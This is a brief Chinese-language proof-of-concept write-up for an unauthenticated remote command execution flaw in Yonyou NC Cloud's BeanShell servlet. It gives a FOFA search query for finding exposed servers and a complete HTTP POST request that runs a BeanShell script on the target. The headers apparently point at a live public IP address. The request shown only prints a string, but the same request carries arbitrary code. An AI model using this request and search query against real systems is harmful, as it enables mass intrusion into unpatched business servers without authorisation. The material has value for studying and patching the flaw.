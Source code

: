 # 用友NC Cloud存在前台远程命令执行漏洞

## 1.漏洞描述

用友 NC bsh.servlet.BshServlet 存在远程命令执行漏洞，该漏洞为远程命令执行漏洞，在无需登陆系统的情况下，攻击者可通过BeanShell测试接口（BeanShell可以直接执行java代码，适用于测试java代码的接口）直接执行任意命令，恶意攻击者成功利用该漏洞可获得目标系统管理权限。

## 2.搜索语法

```plain
fofa：app="用友-UFIDA-NC"
```

## 3.漏洞复现

```plain
POST /servlet/~ic/bsh.servlet.BshServlet HTTP/1.1
Host: 127.0.0.1
Content-Length:28
Cache-Control:max-age=0,
Upgrade-Insecure-Requests:1,
Origin:http://8.130.46.216:8082
Content-Type:application/x-www-form-urlencoded
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko/125.0.0.0 Safari/537.36
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webapng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer:http://8.130.46.216:8082/servlet/~ic/bsh.servlet.BshServlet
Accept-Encoding:gzip, deflate
Accept-Language:zh-CN,zh;q=0.9
Cookie:JSESSIONID=BCFBABDCFCBF9D0D7C482AF1BDFEF70D.server
Connection:close

bsh.script=print("Hardog")
```

网站内容显示如下：
![image](https://github.com/hardog123/poc-exp/assets/170905460/e732b3d5-2141-4796-9f34-319959a56ad6)

